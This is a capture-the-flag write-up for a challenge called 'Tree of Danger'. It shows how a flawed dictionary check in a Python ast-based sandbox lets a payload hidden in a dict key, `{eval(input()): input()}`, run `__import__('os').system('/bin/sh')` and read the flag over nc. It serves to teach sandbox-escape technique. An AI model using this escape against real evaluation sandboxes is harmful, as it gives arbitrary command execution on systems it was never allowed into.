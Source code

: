 # (misc) Tree of Danger

### Proof of Concept

The provided code uses the Python 'ast' module to deny the use of certain features. 

The `is_dict` function, however, doesn't check that the key is valid:
```python
def is_dict_safe(node: ast.Dict) -> bool:
    for k, v in zip(node.keys, node.values):
        if not is_expression_safe(k) and is_expression_safe(v):
            return False
    return True
```

Thus, we can place our payload into the key of a dictionary literal.

### Vulnerability Explanation

We need to create a payload that will provide the flag when run. 
A simple one is `eval(input())`, which will allow us to provide a second payload (such as `__import__('os').system('/bin/sh')`) without any restrictions.

### Solvers/Scripts Used

We can exploit the service by hand using the techniques mentioned above:
```
nc 167.172.51.245 31979
Welcome to SafetyCalc (tm)!
Note: SafetyCorp are not liable for any accidents that may occur while using SafetyCalc
> {eval(input()): input()}
__import__('os').system('/bin/sh')

ls
app
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat flag.txt
HTB{45ts_4r3_pr3tty_c00l!}
```